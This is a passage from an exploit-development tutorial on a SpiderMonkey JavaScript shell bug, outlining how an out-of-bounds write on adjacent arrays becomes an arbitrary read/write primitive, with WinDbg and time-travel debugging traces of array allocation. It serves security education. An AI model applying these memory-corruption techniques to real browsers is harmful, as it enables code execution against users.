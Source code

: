 As introduced above, our goal with this exploit is to pop calc. We don't care about how unreliable or crappy the exploit is: we just want to get native code execution inside the JavaScript shell. For this exploit, I have exploited a debug build of the shell where asserts are enabled. I encourage you to follow, and for that I have shared the binaries (along with symbol information) here: [js-asserts](https://github.com/0vercl0k/blazefox/tree/master/js-asserts).

With an out-of-bounds like this one what we want is to have two adjacent arrays and use the first one to corrupt the second one. With this set-up, we can convert a limited relative memory read / write access primitive to an arbitrary read / write primitive.

Now, we have to keep in mind that Arrays store `js::Value`s and not raw values. If you were to out-of-bounds write the value `0x1337` in JavaScript, you would actually write the value `0xfff8800000001337` in memory. It felt a bit weird at the beginning, but as usual you get used to this type of thing pretty quickly :-).

Anyway moving on: time to have a closer look at Arrays. For that, I highly recommend grabbing an execution trace of a simple JavaScript file creating arrays with [TTD](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/time-travel-debugging-overview). Once traced, you can load it in the debugger in order to figure out how Arrays are allocated and where.

Note that to inspect JavaScript objects from the debugger I use a JavaScript extension I wrote called `sm.js` that you can find [here](https://github.com/0vercl0k/windbg-scripts/tree/master/sm).

```text
0:000> bp js!js::math_atan2

0:000> g
Breakpoint 0 hit
Time Travel Position: D5DC:D
js!js::math_atan2:
00007ff7`4704e140 56              push    rsi

0:000> !smdump_jsvalue vp[2].asBits_
25849101b00: js!js::ArrayObject:   Length: 4
25849101b00: js!js::ArrayObject: Capacity: 6
25849101b00: js!js::ArrayObject:  Content: [0x1, 0x2, 0x3, 0x4]
@$smdump_jsvalue(vp[2].asBits_)

0:000>  dx -g @$cursession.TTD.Calls("js!js::allocate<JSObject,js::NoGC>").Where(p => p.ReturnValue == 0x25849101b00)
=====================================================================================================================================================================================================================
=           = (+) EventType = (+) ThreadId = (+) UniqueThreadId = (+) TimeStart = (+) TimeEnd = (+) Function                          = (+) FunctionAddress = (+) ReturnAddress = (+) ReturnValue  = (+) Parameters =
=====================================================================================================================================================================================================================
= [0x14]    - Call          - 0x32f8       - 0x2                - D58F:723      - D58F:77C    - js!js::Allocate<JSObject,js::NoGC>    - 0x7ff746f841b0      - 0x7ff746b4b702    - 0x25849101b00    - {...}          =
=====================================================================================================================================================================================================================

0:000> !tt D58F:723 
Setting position: D58F:723
Time Travel Position: D58F:723
js!js::Allocate<JSObject,js::NoGC>:
00007ff7`46f841b0 4883ec28        sub     rsp,28h

0:000> kc
 # Call Site
00 js!js::Allocate<JSObject,js::NoGC>
01 js!js::NewObjectCache::newObjectFromHit
```